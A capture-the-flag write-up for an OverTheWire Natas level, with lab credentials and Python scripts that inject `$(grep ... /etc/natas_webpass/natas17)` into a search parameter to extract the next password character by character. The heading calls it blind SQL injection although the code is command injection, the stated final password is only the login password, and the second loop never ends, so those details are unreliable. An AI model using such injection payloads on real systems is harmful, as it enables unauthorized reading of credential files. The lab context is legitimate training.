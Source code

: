 # [Level 15 to 16](https://overthewire.org/wargames/natas/natas16.html) - Blind SQL injection

- Login
```
URL: http://natas16.natas.labs.overthewire.org
Username: natas16
Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
- Exercise:
  - ![image](https://github.com/user-attachments/assets/b87d0948-ffda-4d57-b1f9-bc112973b631)
  - ![image](https://github.com/user-attachments/assets/fcbd0cdd-2a78-44c0-9c66-95add35b1b62)
- Background:
- Solution:
  - python script to find valid characters:
  ```python
  import requests
  import string
  from requests.auth import HTTPBasicAuth
  
  basicAuth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
  
  u="http://natas16.natas.labs.overthewire.org/"
  
  VALID_CHARS = string.digits + string.ascii_letters
  
  matchingChars = ""
  
  for c in VALID_CHARS:
      payload = "$(grep " + c + " /etc/natas_webpass/natas17)zigzag"
      url = u + "?needle=" + payload + "&submit=Search"
  
      response = requests.get(url, auth=basicAuth, verify=False)
  
      if 'zigzag' not in response.text:
          print("Found a valid char : %s" % c)
          matchingChars += c
  
  print("Matching chars: ", matchingChars)
  ```
  - Output:
  ```bash
  Found a valid char : 0
  Found a valid char : 5
  Found a valid char : 7
  Found a valid char : 8
  Found a valid char : 9
  Found a valid char : b
  Found a valid char : h
  Found a valid char : j
  Found a valid char : k
  Found a valid char : o
  Found a valid char : q
  Found a valid char : s
  Found a valid char : v
  Found a valid char : w
  Found a valid char : C
  Found a valid char : E
  Found a valid char : F
  Found a valid char : H
  Found a valid char : J
  Found a valid char : L
  Found a valid char : N
  Found a valid char : O
  Found a valid char : T
  Matching chars:  05789bhjkoqsvwCEFHJLNOT
  ```
  - python script to iterate through the matching chars:
  ```python
  import requests
  import string
  from requests.auth import HTTPBasicAuth
  
  basicAuth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
  u="http://natas16.natas.labs.overthewire.org/"
  
  PASSWORD_LENGTH = 32  # previous passwords were 32 chars long
  matchingChars = "05789bhjkoqsvwCEFHJLNOT"
  password="" # start with blank password
  
  while True:
      for c in matchingChars:
          payload = "$(grep " + password + c + " /etc/natas_webpass/natas17)zigzag"
  
          url = u + "?needle=" + payload + "&submit=Search"
  
          print(url)
  
          response = requests.get(url, auth=basicAuth, verify=False)
  
          if 'zigzag' not in response.text:
              print("Found a valid char : %s" % (password+c))
              password += c
  ```
- Password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`
